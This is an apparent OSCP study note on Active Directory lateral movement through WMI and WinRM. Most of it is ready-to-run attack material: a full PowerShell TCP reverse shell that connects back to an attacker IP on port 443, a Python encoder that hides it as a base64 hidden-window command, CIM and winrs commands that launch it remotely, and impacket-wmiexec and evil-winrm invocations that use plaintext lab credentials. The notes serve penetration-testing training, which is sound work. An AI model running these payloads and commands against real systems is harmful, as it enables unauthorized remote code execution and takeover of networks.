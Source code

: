```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/14-active-directory-movement/1-wmi-and-win-rm/"}
---
```


--------
# WMI:
### WMI Theory
- Windows Management Instrumentation
- Capable of creating processes via the _Create_ mtehod from the Win32_process class.
- Communicates through Remote Procedure Calls (RPC) on port 135 for remote access, and higher ports (19152-65535) for session data.
- All spawned processes are run in session 0
- If ReturnValue == 0, the process has succeeded!

### WMI Remote Process with WMIC
- WMIC utility was recently deprecated, but is used to create processes on a remote target using an Administrator user.
```
wmic /node:<ip> /user:<adminuser> /password:<password> process call create "<process-to-create>"
```

### WMI Reverse Shell with Powershell
1. Generate reverse shell using python script:
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.166",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
````
2. Set up Powershell script and set $username, $password and $command:
```
$username = '<adminuser>';
$password = '<password>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName <ip> -Credential $credential -SessionOption $Options 
$command = '<generated-reverse-shell-payload>';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

$session = New-Cimsession -ComputerName 172.16.189.10 -Credential $credential -SessionOption $Options 
```
3. Start netcat listener, encode and win!

### WMI Remote Shell with Impacket:
```
sudo /usr/bin/impacket-wmiexec joe:Flowers1@172.16.189.11
```

---------------
# WinRM:
### WinRM Theory
- Alternative method to WMI for remote management
- Microsoft version of the WS-Management protocol
- Exchanges XML messages over HTTP (port 5985) and HTTPS (port 5986)
- Implemented in numerous built-in utilities such as winrs
### WinRM Remote Shell with Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -p "qwertqwertqwert123\!\!"
```
- Or -H followed by NT-hash!!
### WinRM Remote Code Execution with WinRS
- Only works for domain users who are Administrators or part of "Remote Management Users".
```
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```

### WinRM Reverse Shell with WinRS
```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

### WinRM Remote Shell with Powershell:
1. Create session:
```
$username = '<user>';
$password = '<password>';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName <target-ip> -Credential $credential
```
2. Enter session:
```
Enter-PSSession 1
```

